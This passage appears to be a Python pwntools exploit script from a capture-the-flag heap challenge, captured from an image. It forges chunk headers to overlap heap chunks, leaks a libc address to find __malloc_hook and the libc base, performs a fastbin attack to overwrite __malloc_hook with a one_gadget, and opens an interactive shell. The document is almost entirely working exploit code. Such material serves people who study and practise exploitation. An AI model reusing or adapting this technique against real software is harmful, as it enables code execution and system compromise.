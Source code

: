 ```python
	io.sendlineafter(b'Size: ', str(size).encode())
	io.sendafter(b'Content: ', content)
	
def release(index):
	io.sendlineafter(b'Command: ', b'3')
	io.sendlineafter(b'Index: ', str(index).encode())
	in_use[index] = False

def dump(index):
	io.sendlineafter(b'Command: ', b'4')
	io.sendlineafter(b'Index: ', str(index).encode())
	io.recvuntil(b'Content: \n')

allocate(0x110)		# chunk #0
allocate(0x110)		# chunk #1
allocate(0x110)		# chunk #2
allocate(0x110)		# chunk #3

payload = cyclic(0x110)
payload += p64(0x120)		# prev_size of chunk #1
payload += p64(0x241)		# fake size of chunk #1
fill(0, 0x120, payload)

release(1)
allocate(0x130)		# fake chunk #1

dump(2)
io.recv(0x20)
malloc_hook = u64(io.recv(8)) - 88 - 0x10
print(hex(malloc_hook))
libc = LibcSearcher('__malloc_hook', malloc_hook)
base = malloc_hook - libc.dump('__malloc_hook')
free_hook = base + libc.dump('__free_hook')

fill(2, 0x30, b'\x00' * 0x18 + p64(0x100) + p64(malloc_hook + 0x10 + 88) + p64(malloc_hook + 0x10 + 88))

allocate(0xf0)		# chunk #4
allocate(0x20)		# chunk #5
allocate(0x60)		# chunk #6

release(6)
gdb.attach(io)
fill(5, 0x38, b'\x00' * 0x20 + p64(0x30) + p64(0x71) + p64(malloc_hook - 0x23))	# fastbin attack
allocate(0x60)		# chunk #6
allocate(0x60)		# chunk #7, this one is on __malloc_hook

fill(7, 0x1B, b'\x00' * 0x13 + p64(one_gadgets[1] + base))	# write one_gadget
# gdb.attach(io)
# release(6)

# allocate(0x20)	### DO THIS IN INTERACTIVE()!!!
io.interactive()
```
